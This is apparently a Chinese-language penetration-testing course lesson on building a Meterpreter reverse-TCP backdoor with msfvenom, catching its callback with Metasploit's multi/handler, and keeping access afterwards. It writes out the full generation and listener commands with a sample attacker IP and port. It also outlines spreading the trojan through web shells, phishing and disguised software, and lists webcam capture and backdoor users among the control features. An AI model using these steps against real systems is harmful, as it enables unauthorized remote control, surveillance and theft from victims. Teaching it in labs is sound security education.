







# 网络安全系统教程：P12：4.漏洞攻击-msf后门木马植入和远控监听 🎯

在本节课中，我们将要学习如何使用Metasploit框架（MSF）生成后门木马，并建立远程控制监听。这是渗透测试中获取和维持目标系统权限的核心技术之一。

## 认识Meterpreter与后门木马

上一节我们介绍了利用漏洞获取权限。本节中我们来看看如何通过植入后门木马来维持控制。当我们通过漏洞（如永恒之蓝）获得目标权限后，会进入一个名为**Meterpreter**的强大交互式shell。输入`help`命令，可以看到一系列功能指令及其描述。

以下是Meterpreter支持的部分核心功能：
*   对目标进行截图。
*   控制目标系统。
*   打开摄像头拍照或录制视频。
*   进行权限提升。
*   下载或上传文件。
*   关机或重启目标。
*   添加后门用户。

这些操作在权限允许的情况下都可以执行。Meterpreter功能强大，许多复杂操作只需一行命令即可完成。

然而，在真实的攻击场景中，目标系统可能并不存在我们已知的漏洞。这时，最常用的手法就是生成并植入远程控制的后门木马。

## 理解木马与生成工具

首先，需要理解什么是木马。木马（病毒）主要分为两类：
1.  **破坏性木马**：例如“熊猫烧香”，旨在破坏系统，导致电脑死机等。
2.  **控制性木马**：例如勒索病毒或远程后门木马，旨在控制目标系统而非直接破坏。勒索病毒通过加密文件来勒索赎金，也属于一种控制行为。

我们将要生成的是控制性的远程后门木马。生成工具是 **`msfvenom`**。以下是生成后门木马的标准命令格式：

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<你的IP> LPORT=<监听端口> -f exe -o demo.exe
```

这个命令包含几个关键参数：
*   **`-p` (payload)**：指定载荷。其结构通常为：`系统/架构/作用/连接方式`。例如：
    *   `windows/x64/meterpreter/reverse_tcp` 表示针对Windows 64位系统，使用Meterpreter载荷，通过TCP反向连接。
*   **`LHOST`**：监听主机的IP地址（即攻击者的IP）。
*   **`LPORT`**：监听端口（0-65535）。
*   **`-f` (format)**：指定输出文件格式。例如：
    *   `exe`：Windows可执行文件。
    *   `apk`：Android应用程序。
    *   `elf`：Linux可执行文件。
*   **`-o` (output)**：指定输出文件名。

## 实战：生成与植入后门木马



下面我们进行实际操作演示。

### 步骤一：生成后门木马



在Kali Linux终端中，使用`msfvenom`命令生成木马文件。例如，生成一个名为`demo.exe`的Windows后门：



```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=9999 -f exe -o demo.exe
```

执行后，木马文件（如`demo.exe`）会生成在当前目录下。

### 步骤二：木马传播方法

生成木马后，需要通过某种方式让目标执行。主要有两种方法：
1.  **利用漏洞上传**：如果目标网站存在文件上传漏洞，可以先上传一个简单的Web Shell，再利用该Shell上传功能更强大的MSF后门。
2.  **伪装与钓鱼**：对木马进行免杀处理、绑定正常软件等方式进行伪装，然后通过钓鱼邮件、社交工程等手段诱骗目标用户点击执行。

为了方便演示，我们将手动在测试机（充当“鱼”）上运行这个木马。注意，木马文件可能会被杀毒软件查杀。关于免杀（绕过杀毒软件）的技术，将在课程后续部分或高级班中介绍。

### 步骤三：建立监听（布置“鱼钩”）

目标执行木马前，攻击者需要先开启监听。我们回到MSF控制台（`msfconsole`）。

首先，将可能存在的其他会话放到后台（例如之前永恒之蓝攻击建立的会话），使用命令：
```bash
background
```

然后，使用`exploit/multi/handler`模块来建立监听。这个模块是MSF中使用频率最高的模块之一。

以下是建立监听的完整流程：
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 9999
run
```

**关键点**：这里设置的`payload`、`LHOST`、`LPORT`必须与生成木马时使用的参数**完全一致**，否则无法成功建立连接。

### 步骤四：等待目标上线



监听启动后，就相当于“鱼钩”已布置好。一旦目标用户（“鱼”）运行了`demo.exe`文件，我们就会在MSF控制台中收到一个Meterpreter会话上线的提示。



此时，我们就获得了该目标系统的控制权。可以执行之前提到的所有Meterpreter命令，如截图、控制、摄像头监控等。这个过程**不依赖于**目标系统是否存在其他漏洞，只要木马被执行即可。

## 权限维持与总结



最后，我们需要思考一个关键问题：如果目标用户删除了木马文件，我们的控制是否会失效？答案是肯定的。这就引出了渗透测试中另一个重要概念——**权限维持**。

红队攻防是一个持续的过程。为了防止权限丢失，攻击者通常会采取一些权限维持技术，例如：
*   将后门植入系统更深层、更隐蔽的位置。
*   创建计划任务或启动项，实现持久化。
*   植入多个后门（二次后门）。

本节课中我们一起学习了使用MSF生成后门木马和建立远程监听的核心流程。我们来回顾一下重点步骤：
1.  使用 **`msfvenom`** 命令生成指定参数的后门木马文件。
2.  通过漏洞利用或社会工程学方法将木马植入目标系统。
3.  在MSF控制台使用 **`exploit/multi/handler`** 模块设置监听，参数务必与生成木马时保持一致。
4.  等待目标上线，通过Meterpreter进行控制。
5.  考虑进行权限维持，以巩固控制权。



掌握此基础后，你可以举一反三，尝试生成针对Linux（`elf`格式）、Android（`apk`格式）等其他系统的后门木马，其原理和操作流程是相通的。